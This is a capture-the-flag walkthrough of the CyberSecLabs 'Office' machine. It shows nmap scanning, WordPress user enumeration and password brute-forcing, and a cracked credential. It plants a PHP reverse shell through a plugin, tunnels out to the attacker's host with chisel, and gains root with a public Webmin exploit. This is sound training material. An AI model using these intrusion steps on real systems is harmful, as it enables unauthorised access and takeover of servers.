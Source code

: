 In this walkthrough, we'll go over one of the machines called ***Office*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Office IP](officeIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.1
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:58 EDT
Nmap scan report for 172.31.3.1
Host is up (0.057s latency).

PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Not valid before: 2020-05-08T20:01:51
|_Not valid after:  2021-05-08T20:01:51
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds

```
Let's add this to our /etc/hosts file as follows:
```bash
172.31.3.1 office.csl
```
It looks like a WordPress site is being served on port 80:
![Office WP](office-index-html.png)

Since this is a WordPress site, we can use wpscan to scan all the plugins with `wpscan --url http://office.csl --enumerate ap --plugins-detection aggressive --max-threads 50`
![WP Plugin Scan](office-wpscan.png)

Previously, I tried to exploit the plugin ***wp-file-manager***, but that didn't go anywhere. Now, we can perform a user enumeration with the following `wpscan --url http://office.csl --enumerate u`
![WP User Enum](office-wpscan-userenum.png)

It looks like we have a user called ***dwight*** and we can try to brute force the login with this user name and the wordlist of rockyou.txt `wpscan --url http://office.csl --passwords /usr/share/wordlists/rockyou.txt --usernames dwight`
![WP Bruteforce](office-wpscan-bruteforce.png)

We have a successful hit so the found creds are:

Username | Password
--------- | ---------
dwight | cowboys1

By using the above credentials, we can successfully log into the admin panel. However, we need to download and install ***php_everywhere*** plugin for this machine. After installing the plugin, let's add a new page and then copy the PHP reverse shell from ![Pentestmonkey GitHub Repo](https://github.com/pentestmonkey/php-reverse-shell) into the PHP Everywhere text box (don't forget to change the IP address and port to yours) and type "php_everywhere" in the body of the page:
![PHP Everywhere Reverse Shell](office-php-everywhere.png)
![PHP Everywhere Page Preview](office-wpscan-php_everywhere.png)

Now, start a revershell and in the WordPress site, hit "Preview". We should receive a shell back:
![Office Foothold](office-intialfoothold.png)

It looks like we are www-data and we need to perform a lateral movement to become dwight user so let's look at `sudo -l` which shows that we can run bash as dwight:
![Office Sudo -l](office-wwwdata-sudo-l.png)

We can run the following script to become dwight `sudo -u dwight /bin/bash`:
![Office Dwight](office-dwight.png)

From here, there are a few things that I check manually such as locally open ports with `netstat -tulpn`:
![Office Open Ports](office-netstat.png)

It looks like the port 10000 is open so we can forward this port back to our local Kali machine with [Chisel](https://github.com/jpillora/chisel)
1. On Kali, I started a chisel server: `./chisel_1.7.6_linux_amd64 server -p 1111 --reverse` ![Chisel Server](office-chisel-server.png)
2. On the target, I started a chisel client: `./chisel_1.7.6_linux_amd64 client 10.10.0.18:1111 R:9050:127.0.0.1:10000` ![Chisel Client](office-chisel-client.png)

When we visit http://127.0.0.1:9050/session_login.cgi, I see that Webmin is running:
![Office Webmin](office-webmin.png)

At this point, we can use Metasploit to exploit the Webmin server, but let's do it manually without Metasploit. 

We can clone the following GitHub repo from https://github.com/MuirlandOracle/CVE-2019-15107 and just run the exploit as shown below:

![Office Root](office-manual-webmin.png)
